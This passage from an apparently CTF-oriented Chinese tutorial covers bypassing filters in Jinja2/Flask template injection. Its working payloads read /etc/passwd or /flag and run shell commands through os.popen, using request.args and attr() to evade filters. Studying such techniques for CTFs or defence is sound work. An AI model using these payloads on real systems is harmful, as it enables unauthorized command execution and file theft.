 等同于：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}


```

如果过滤了 args，可以将其中的 request.args 改为 request.values，POST 和 GET 两种方法传递的数据 request.values 都可以接收。

### 过滤了下划线__

**利用 request 对象绕过**

```
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__


```

等同于：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}


```

### 过滤了点 .

**利用 `|attr()` 绕过（适用于 flask）**

如果 `.` 也被过滤，且目标是 JinJa2（flask）的话，可以使用原生 JinJa2 函数`attr()`，即：

```
().__class__   =>  ()|attr("__class__")


```

示例：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}


```

等同于：
